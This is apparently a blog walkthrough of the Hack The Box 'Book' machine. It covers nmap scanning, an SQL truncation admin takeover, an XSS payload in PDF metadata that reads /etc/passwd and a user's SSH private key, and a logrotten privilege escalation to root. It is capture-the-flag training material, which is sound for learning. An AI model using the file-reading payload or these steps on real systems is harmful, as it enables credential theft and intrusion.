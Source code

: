 ```yaml
---
layout: post
title:  Hack The Box - Book
category: walkthrough
date:   2020-07-25 07:00:00
---
```


# ![Book](/assets/img/book/book.png)  
<center> Book is a medium machine created by [MrR3boot](https://www.hackthebox.eu/home/users/profile/13531)</center>   
  
  
  
# Enumeration
### <center>Nmap</center>  
  
<center>As always, begin with nmap</center>  

>nmap -sC -sV -T4 -p 22,80 10.10.10.176  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03  
>Nmap scan report for 10.10.10.176  
>Host is up (0.19s latency).  
>  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
>| ssh-hostkey:   
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)  
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)  
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)  
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
>| http-cookie-flags:   
>|   /:   
>|     PHPSESSID:   
>|_      httponly flag not set  
>|_http-server-header: Apache/2.4.29 (Ubuntu)  
>|_http-title: LIBRARY - Read | Learn | Have Fun  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second    
  
<center>Opening the port 80 I got this</center>  
# ![book1](/assets/img/book/book1.png)
  
<center>After register I found the admin  email: admin@book.htb</center>  
# ![book2](/assets/img/book/book3.png)
  
<center>At first I didn't know what to do with this</center>  
<center>Until I back to home page, look the source and find this</center>  
# ![book3](/assets/img/book/book2.png)  
  
### <center>SQL Truncation</center>
  
<center>Using *[SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack/)* with Burp Suite I tested "name" and "email" fields with more characters</center>  
  
# ![book4](/assets/img/book/book4.png)  
  
<center>Logged in with the credentials admin@book.htb qwerty</center>  
  
# ![book5](/assets/img/book/book5.png)  
  
<center>Using *[this](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)* as reference I found a way in</center>  
### Exploit  
  
<center>Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script</center>  
<center>\*Missing tags</center>  
  
<center>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</center>  
  
  
  
<center>Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd</center>  

# ![book6](/assets/img/book/book6.png)  
  
<center>If I was runnin to get user blood next step would be "file:///home/reader/user.txt"</center>  
  
<center>Before get the id\_rsa from reader I tried root, perhaps...</center>  
  
<center>Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id\_rsa and uploaded a new pdf, downloaded it again and a got the id\_rsa from user reader</center>  
  
<center>Copy that to another file called id\_rsa and "chmod 600 id\_rsa"</center>  
  
# ![book7](/assets/img/book/book7.png)  
  
<center>Now just "ssh -i id\_rsa reader@10.10.10.176" and smile</center>  
  
# ![book8](/assets/img/book/book8.png)</center>
  
  
# Privilege Escalation  
  
  
<center>After enumerate almost everything and don't find nothing</center>  
<center>I used [pspy](https://github.com/DominicBreuker/pspy.git) and find root process</center>  
<center>scp -i id\_rsa pspy64s reader@10.10.10.176</center>  
  
  
<center>pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg</center>  
  
# ![book9](/assets/img/book/book9.png)  
  
<center>Search logrotate exploit in google and found [this](https://github.com/whotwagner/logrotten) on github</center>  
<center>Cloned the repository and uploaded it with scp command</center>  
<center>Unziped the archive and compiled the logrotten.c with gcc</center>  
  
<center>gcc -o logrotten logrotten.c</center>  
  
<center>Created the payload  and executed logrotten</center>  
  
# ![book10](/assets/img/book/book10.png)  
  
<center>Now just cat /tmp/id\_rsa to another file and ssh to root</center>  
  
  
# ![book11](/assets/img/book/book11.png)  
# ![book12](/assets/img/book/book12.png)  
  
